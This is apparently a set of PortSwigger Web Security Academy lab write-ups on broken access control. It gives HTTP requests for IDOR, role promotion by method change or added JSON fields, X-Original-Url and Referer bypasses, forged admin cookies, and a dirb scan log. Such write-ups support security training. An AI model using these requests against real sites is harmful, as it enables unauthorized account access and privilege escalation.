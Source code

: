 ```
Lab: User ID controlled by request parameter with data leakage in redirect

APPRENTICE

This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```

Replace id = wiener by carlos and see the response in Burp

GG wp ...

---
```
Lab: User ID controlled by request parameter with password disclosure

APPRENTICE

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

Replace id = wiener by administrator, change the password and look in burp


---
```
Lab: Insecure direct object references

APPRENTICE

This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

Solve the lab by finding the password for the user carlos, and logging into their account. 
```

Download : 1.txt 

---
```
This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
Change methode POST > PUT 
```
PUT /admin-roles
username=wiener&action=upgrade
```
> Congratulations, you solved the lab!

---

```
This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user carlos. 
```

Open the inspector and check source code :

```
adminPanelTag.setAttribute('href', '/admin-f8nyzl');
adminPanelTag.innerText = 'Admin panel';
```

> Congratulations, you solved the lab!

---
```
This lab has an unprotected admin panel.

Solve the lab by deleting the user carlos. 
```

```
──(kali㉿kali)-[/mnt/portswigger/mfa]
└─$ dirb https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May 12 16:50:11 2023
URL_BASE: https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/ ----
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/analytics (CODE:200|SIZE:0)                                                           
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/favicon.ico (CODE:200|SIZE:15406)                                                     
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/filter (CODE:200|SIZE:10402)                                                          
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/login (CODE:200|SIZE:2879)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/Login (CODE:200|SIZE:2879)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/logout (CODE:302|SIZE:0)                                                              
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/my-account (CODE:302|SIZE:0)                                                          
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/product (CODE:400|SIZE:30)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/robots.txt (CODE:200|SIZE:45)                                                         
                                                                               zt                                                                         
-----------------
END_TIME: Fri May 12 16:53:55 2023
DOWNLOADED: 4612 - FOUND: 9
```

Content inside robots.txt : 
```
User-agent: *
Disallow: /administrator-panel
```

> Congratulations, you solved the lab!

---

```
This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

To solve the lab, access the admin panel and delete the user carlos. 
```

[URL rewrite vulnerability](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)

```
GET / HTTP/2
X-Original-Url: /admin
```
You gain access to the admin page, then delete Carlos ...
```
GET /?username=carlos HTTP/2
Host: 0a0c0091039c87418156200700350087.web-security-academy.net
X-Original-Url: /admin/delete
```

> Congratulations, you solved the lab!

---

```
This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

To solve the lab, find the GUID for carlos, then submit his API key as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```

Carlos GUID is in Carlos blog post

So use this id :)

> Congratulations, you solved the lab!

---

```
This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```
Change :
GET /my-account?id=wiener

Into :
GET /my-account?id=carlos

> Congratulations, you solved the lab!

---

```
This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

POST /my-account/change-email 
{"email":"test@test.com"}

Response :
{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "gqLd1cVIhE4aCK95vpgvSjhGzZLEUrs9",
  "roleid": 1
}

Change that for modify the roleid

POST /my-account/change-email 
{
    "email":"test@test.com",
    "roleid":2
}

Response :
{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "gqLd1cVIhE4aCK95vpgvSjhGzZLEUrs9",
  "roleid": 2
}

GG !

Go to /admin

> Congratulations, you solved the lab!

---

```
This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

Intercept all the request when you go on /admin
replace admin=false by admin=true

> Congratulations, you solved the lab!

---

```
Lab: Multi-step process with no access control on one step

PRACTITIONER

This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
```
POST /admin-roles
action=upgrade&confirmed=true&username=wiener
```


---

```
Lab: Referer-based access control

PRACTITIONER

This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
```
GET /admin-roles?username=wiener&action=upgrade
Referer: https://0a9b00170444c36f81d95ca5008400be.web-security-academy.net/admin
```

---

